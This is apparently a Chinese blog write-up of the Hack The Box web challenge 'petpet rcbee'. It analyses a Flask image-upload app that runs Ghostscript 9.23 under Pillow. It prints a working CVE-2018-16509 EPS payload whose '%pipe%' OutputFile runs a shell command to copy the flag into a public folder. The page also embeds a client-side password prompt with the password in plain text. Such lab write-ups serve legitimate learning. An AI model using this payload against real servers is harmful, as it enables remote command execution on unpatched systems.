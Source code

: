 ```yaml
---
title: '[HTB] petpet rcbee '
date: 2021-12-28 17:57:12
tags: [HTB,web]
published: true
hideInList: false
feature: 
isTop: false
---
```



# petpet rcbee

~~又是一道flask+python的题(后来发现无关)~~ 

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/petpetrobee_1.png)
<!-- more -->
<script language = JavaScript> function password() {

    var testV = 1;

    var pass1 = prompt('please input the password','');

    var passwordforthisarticle = "dhlove";

    var inputtimemax = 5;

    while (testV < inputtimemax) {

    if (!pass1)

    history.go(-1);

    if (pass1 == passwordforthisarticle) {

    break;

    }

    testV+=1;

    var pass1 =

    prompt('Password error!');

    }

    if (pass1!= passwordforthisarticle & testV == inputtimemax)  

    history.go(-1);

    return " ";

    }

    document.write(password());

</script>

## 分析

### Flask

**文件上传功能**(/api/upload)

上传前会先进行一次对文件名的判断:在函数`allowed_file` 中实现:

```php
def allowed_file(filename):
    return '.' in filename and \
        filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```

就是检查文件后缀是否满足,同时文件后缀名在ALLOWED_EXTENSIONS里(png,jpg,jpeg)

如果文件名符合:

文件上传会上传为临时文件(会自动删除),且文件名有再次的安全审查,调用了`werkzeug.utils` 下的`secure_filename` 方法

```php
tmp  = tempfile.gettempdir()
path = os.path.join(tmp, secure_filename(file.filename))
```

**而该应用主要使用的是PIL模块,从而实现”摸摸头”的效果**

### Dockerfile

发现docker下载了ghostscript-9.23

## 漏洞

一搜索ghostscript-9.23 exploid的就搜到了,现在要学习的就是利用姿势

Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509

链接见:[https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)

可以看到PIL使用了Ghostscript作为引擎

构造合适的payload

```php
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe% cat /app/flag >> /app/application/static/assets/flag) currentdevice putdeviceprops
```

查看对应路径就可以下载到flag文件了
